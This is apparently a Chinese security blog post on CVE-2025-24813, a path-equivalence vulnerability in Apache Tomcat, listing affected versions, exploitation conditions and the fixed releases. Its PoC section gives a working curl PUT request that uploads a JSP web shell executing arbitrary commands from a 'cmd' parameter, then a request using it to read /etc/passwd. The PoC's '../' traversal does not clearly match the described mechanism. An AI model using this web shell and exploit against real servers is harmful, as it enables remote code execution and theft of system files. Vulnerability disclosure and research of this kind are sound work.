 #  CVE-2025-24813 - Apache Tomcat 路径等效漏洞   
 Ots安全   2025-04-06 19:15  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
描述  
  
路径等价：'file.Name'（内部点）导致远程代码执行和/或信息泄露和/或通过 Apache Tomcat 中启用写入的默认 Servlet 添加到上传的文件中。  
  
此问题影响 Apache Tomcat：从 11.0.0-M1 到 11.0.2，从 10.1.0-M1 到 10.1.34，从 9.0.0.M1 到 9.0.98。  
  
如果以下所有情况都为真，则恶意用户能够查看安全敏感文件和/或将内容注入这些文件：  
  
- 为默认 servlet 启用写入（默认情况下禁用）  
- 支持部分 PUT（默认启用）  
  
- 安全敏感上传的目标 URL 是公共上传的目标 URL 的子目录  
  
- 攻击者知道正在上传的安全敏感文件的名称  
  
- 安全敏感文件也是通过部分 PUT 上传的  
  
如果以下所有情况均属实，则恶意用户能够执行远程代码执行：  
- 为默认 servlet 启用写入（默认情况下禁用）  
  
- 支持部分 PUT（默认情况下启用）  
  
- 应用程序使用 Tomcat 的基于文件的会话持久性和默认存储位置  
  
- 应用程序包含一个可能在反序列化攻击中被利用的库  
  
建议用户升级到版本 11.0.3、10.1.35 或 9.0.99，以修复该问题。  
  
ID： CVE-2025-24813  
  
严重程度：严重  
  
参考链接： https://github.com/advisories/GHSA-83qj-6fr2-vhqg  
  
PoC步骤：  
  
curl1.使用PUT方法发送请求：  
  
```
curl -X PUT "http://target.com/uploads/../webapps/ROOT/updates.jsp" \
  -H "Content-Type: application/x-jsp" \
  --data-raw '<%@ page import="java.io.*" %><html><body><form method="GET"><input type="text" name="cmd"><input type="submit" value="Run"></form><% if(request.getParameter("cmd") != null) {Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));BufferedReader r = new BufferedReader(new InputStreamReader(p.getInputStream()));String l; while((l=r.readLine())!=null){ out.println(l+"<br>"); } } %></body></html>' -i
```  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadd7Y6mYZqBakNfgRyA9db6TiadGK61D2XARAaGnuxpTkYlPCic43ia3PGKHRyNX4EibicdAaX9hgk3XdQ/640?wx_fmt=png&from=appmsg "")  
  
2.直接访问上传的文件：  
  
```
curl"http://target.com/updates.jsp?cmd=cat/etc/passwd" -i
```  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadd7Y6mYZqBakNfgRyA9db6HFDUqjcBar5z73MePdVeRMvep8ebYs2rUdXTqvXyty0LV2RkqRVUWQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
  
